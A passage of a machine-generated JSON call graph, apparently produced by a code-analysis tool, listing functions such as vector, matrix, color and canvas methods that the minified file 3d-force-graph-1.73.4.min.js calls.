"static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "imul"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "imul"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "width"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "width"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "height"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "height"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "divide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "divideScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clampScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clampLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "divideScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "roundToZero"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "trunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "trunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "negate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lengthSq"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "manhattanLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "divideScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "angle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "angleTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lengthSq"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "acos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToSquared"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "manhattanDistanceTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lerp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lerpVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rotateAround"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "identity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "extractBasis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrix3Column"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrix3Column"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrix3Column"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyMatrices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "premultiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyMatrices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyMatrices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "determinant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transpose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getNormalMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transpose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transposeIntoArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setUvTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "scale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "premultiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "premultiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "premultiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeTranslation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeScale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createElementNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convertSRGBToLinear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convertLinearToSRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convertSRGBToLinear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convertLinearToSRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "workingColorSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "workingColorSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "putImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sRGBToLinear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "putImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "needsUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "image"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "image"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setUvTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformUv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "needsUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "needsPMREMUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "width"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "width"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "height"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "height"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setW"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": 